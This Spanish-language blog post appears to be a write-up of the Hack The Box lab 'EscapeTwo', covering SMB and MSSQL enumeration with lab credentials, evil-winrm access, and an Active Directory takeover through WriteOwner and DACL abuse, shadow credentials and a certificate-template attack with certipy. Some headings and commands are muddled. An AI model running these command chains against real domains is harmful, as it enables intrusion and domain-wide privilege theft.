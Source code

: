 ```yaml
---
layout: single
title: EscapeTwo  - Hack The Box
excerpt: "Enumeración inicial: Identificar servicios como SMB, Kerberos y LDAP. Estos revelan información clave, como el dominio y usuarios válidos. Ataque inicial Utilizar técnicas como Kerberoasting o ASREPRoasting para obtener hashes de contraseñas. Esto puede incluir herramientas como GetNPUsers.py o impacket.Explotación Usar credenciales o hashes obtenidos para acceder al sistema mediante RDP o SMB.Una vez dentro, se debe explorar el sistema para descubrir más información."
date: 2025-01-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-unbalanced/portada.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - nmap
  - SMB
  - Kerberoasting
  - Active Directory
  - 
---
```

numeración
Ataque
Acceso
Escalada
Root
![](/assets/images/htb-writeup-unbalanced/portada2.png)
## rose / KxEPkKe6R8su

## Portscan
nmap -Pn -sS -sC -sV -p- -T5 --max-rate 10000 -oN escape-two.txt 10.10.11.51

53/tcp    - domain       - Simple DNS Plus
  88/tcp    - kerberos-sec - Microsoft Windows Kerberos  
135/tcp   - msrpc        - Microsoft Windows RPC  
139/tcp   - netbios-ssn  - Microsoft Windows NetBIOS  
389/tcp   - ldap         - Microsoft Windows Active Directory LDAP  
445/tcp   - microsoft-ds - Posiblemente SMB  
464/tcp   - kpasswd5     - Posiblemente Kerberos  
593/tcp   - ncacn_http   - Microsoft Windows RPC over HTTP  
636/tcp   - ssl/ldap     - LDAP sobre SSL  
1433/tcp  - ms-sql-s     - Microsoft SQL Server  
3268/tcp  - ldap         - Microsoft Windows Active Directory LDAP  
3269/tcp  - ssl/ldap     - LDAP sobre SSL  
5985/tcp  - http         - Microsoft HTTPAPI (SSDP/UPnP)  
9389/tcp  - mc-nmf       - .NET Message Framing  
47001/tcp - http         - Microsoft HTTPAPI (SSDP/UPnP)  
49664-49808/tcp - msrpc - Microsoft Windows RPC (puertos dinámicos)





## Rsync & EncFS

 Bandera de usuario

Intente una enumeración básica de smb


```
poetry run python netexec.py smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --shares                                                     main 
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ        
```

Mirando los catálogos, encontramos el Departamento de Contabilidad que nos interesa. Tenemos que descargarlo usando el comando y luego desempacarlo.

```
smbclient //escape.two.htb/Accounting\ Department -U Rose%KxEPkKe6R8su                                                                              130 ↵  

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 13:52:21 2024
  ..                                  D        0  Sun Jun  9 13:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 13:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 13:52:07 2024

                6367231 blocks of size 4096. 910811 blocks available

mget *
Get file accounting_2024.xlsx? y
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (25.7 KiloBytes/sec) (average 25.7 KiloBytes/sec)
Get file accounts.xlsx? y
getting file \accounts.xlsx of size 6780 as accounts.xlsx (19.8 KiloBytes/sec) (average 23.0 KiloBytes/sec)
``` 

ya depues de descargar lso 2 archivos viendo la extencion en gogle veo muachas aplicaiones para manipular el archivo

![](/assets/images/htb-writeup-unbalanced/xml.png)

La cuenta sa es la cuenta de administración predeterminada para conectar y administrar la base de datos MSSQL. Comprobar mostró que la cuenta es válida, intente utilizar mssqlclient de impacket para iniciar sesión.

![](/assets/images/htb-writeup-unbalanced/sql.png)

Genial, ahora somos sas. Por defecto, el procedimiento almacenado xp.cmdshell está desactivado en MSSQL, pero podemos habilitarlo y disfrutar de todos sus beneficios.

Asegúrese de buscar al anfitrión en busca de algo útil. Por ejemplo, tiene archivos notables para la implementación de MSSQL.

![](/assets/images/htb-writeup-unbalanced/sql1.png)

evil-winrm -i sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'

![](/assets/images/htb-writeup-unbalanced/evil.png)

 Bandera de raíz Enlace a la partida

A continuación, considere la explotación de las listas de control de acceso discreto (DACL) utilizando el permiso de WriteOwner. El abuso del permiso de WriteOwner puede llevar a un cambio del propietario del objeto a un usuario controlado por un atacante (en este caso, ryan) y capturar el objeto.

El informe Bloodhound contribuyó a encontrar el vector.

python3 bloodyAD.py --host DC01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'set owner ca_svc ryan

![](/assets/images/htb-writeup-unbalanced/bloo.png)


A continuación, establezca permisos FullControl para Ryan. Ahora podremos controlar el objeto de este usuario, incluida la capacidad de modificarlo y borrarlo.


```
dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'    

```
El siguiente comando certipy-ad de abusar automáticamente de la cuenta de sombra cásvc. Nos conectamos al controlador de dominio por dirección IP (-dc-ip) y utilizamos las credenciales especificadas para la autenticación.

```
certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 'DC01.sequel.htb' -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc
```

![](/assets/images/htb-writeup-unbalanced/cert.png)
```
KRB5CCNAME=ca_svc.ccachecertipy-ad find -scheme ldap -k -debug -target DC01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout

KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target {host name} -dc-ip {ip}
```


![](/assets/images/htb-writeup-unbalanced/cert2.png)

Este comando crea una solicitud de certificado para la cuenta de casvc utilizando los hashess y la plantilla especificados:

certipy-ad req -u ca_svc -hashes :hashes -ca sequel-DC01-CA -target {host} -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@{domain} -ns {ip} -dns {ip}

![](/assets/images/htb-writeup-unbalanced/cert3.png)

Ahora se trata de autenticar al usuario usando el archivo PFX que se obtuvo el paso antes:


```
certipy-ad auth -pfx {some.pfx} -dc-ip {ip}
```
![](/assets/images/htb-writeup-unbalanced/certifica.png)


Todo lo que queda es usar mal viento y un nuevo hash administrador. La bandera de raíz nos estará esperando en el escritorio.
![](/assets/images/htb-writeup-unbalanced/evil2.jpg)
